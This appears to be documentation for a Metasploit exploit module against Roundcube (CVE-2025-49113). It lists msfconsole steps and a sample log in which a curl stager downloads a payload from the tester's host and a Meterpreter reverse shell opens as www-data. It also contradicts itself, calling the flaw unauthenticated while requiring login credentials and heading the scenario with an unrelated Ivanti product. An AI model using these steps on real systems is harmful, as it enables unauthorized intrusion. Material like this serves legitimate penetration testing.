 ## Vulnerable Application
  This module exploits an unauthenticated remote code execution vulnerability via a file upload
  endpoint. The vulnerability stems from improper validation of the uploaded filename, which is
  deserialized on the server side without sufficient sanitization. By embedding a PHP serialization
  gadget chain in the filename, an attacker can achieve remote code execution.

  This issue is tracked as CVE-2025-49113. Exploitation results in code execution as the web server
  user.

## Testing
To set up a test environment:
1. Set up an Roundcube.
2. Configure basic networking and confirm that the web service on port 80 is reachable.
3. Follow the verification steps below.

## Options
No custom options exist for this module.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/roundcube_unauth_rce_cve_2025_49113`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set LHOST <LOCAL_IP>`
6. `set LPORT <LOCAL_PORT>`
7. `set USERNAME <USERNAME_TO_LOGIN_WITH>`
8. `set PASSWORD <PASSWORD_TO_LOGIN_WITH>`
9. `run`

## Scenarios
### Ivanti EPMM (MobileIron Core) Linux Target
```
msf6 exploit(multi/http/roundcube_unauth_rce_cve_2025_49113) > show options

Module options (exploit/multi/http/roundcube_unauth_rce_cve_2025_49113):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to login with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      9999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI of the Roundcube Application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       Email User to login with
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux

msf6 exploit(multi/http/roundcube_unauth_rce_cve_2025_49113) > exploit

[*] Started reverse TCP handler on 192.168.159.129:8082 
[*] Using URL: http://192.168.159.129:9696/
[*] Fetching CSRF token...
[*] Attempting login...
[+] Login successful.
[*] Uploading malicious payload...
[*] Client 192.168.181.148 (curl/7.74.0) requested /
[*] Sending payload to 192.168.181.148 (curl/7.74.0)
[*] Sending stage (3045380 bytes) to 192.168.181.148
[*] Meterpreter session 1 opened (192.168.159.129:8082 -> 192.168.181.148:56528) at 2025-06-06 21:05:59 -0400
[+] Exploit attempt complete. Check for session.
[*] Server stopped.

meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer     : dante.local
OS           : Debian 11.5 (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```

